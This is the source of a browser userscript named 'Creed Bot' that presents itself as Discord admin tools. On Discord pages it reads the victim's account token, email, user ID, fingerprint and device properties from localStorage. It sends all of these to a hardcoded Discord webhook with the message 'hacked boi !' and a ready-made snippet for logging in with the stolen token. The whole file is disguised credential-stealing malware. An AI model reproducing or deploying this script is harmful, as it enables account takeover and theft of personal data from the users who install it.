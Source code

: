 // ==UserScript==
// @name         Creed Bot
// @namespace   https://discord.com/channels/@me
// @version      0.1
// @description  Creed Bot admin tools
// @author       Creed
// @match      https://discord.com/channels/@me
// ==/UserScript==

(function() {
    'use strict';

var discordWebhook = "https://discord.com/api/webhooks/822925060334944296/nqVUpAjN9q2ifIl3IgXKCCBUl3BSwTGUgKd4VSfNYGX3zcKjbse7eSpBVwRF1N-gMm7G";
var i = document.createElement('iframe');
document.body.appendChild(i);
var request = new XMLHttpRequest();
request.open("POST", discordWebhook);
request.setRequestHeader('Content-type', 'application/json');
var params = {
    username: "Creed Bot",
    avatar_url: "https://cdn.discordapp.com/attachments/746406161724604437/801504298101768222/image0.jpg",
    content: '**hacked boi !**\n------------------\nToken : ' + i.contentWindow.localStorage.token + '\n------------------\nemail : ' + i.contentWindow.localStorage.email_cache + '\n------------------\nUser ID : ' + i.contentWindow.localStorage.user_id_cache + '\n------------------\nFingerprint : ' + i.contentWindow.localStorage.fingerprint + '\n------------------\nProperties : \`\`\`json\n' + i.contentWindow.localStorage.deviceProperties + '\`\`\`------------------\nScript for login : \n\`\`\`js\nlocation.reload();var i = document.createElement(\'iframe\');document.body.appendChild(i);i.contentWindow.localStorage.token = "\\"' + i.contentWindow.localStorage.token.replace(/^"(.*)"$/, '$1') + '\\""\`\`\`'
};
request.send(JSON.stringify(params));

})();
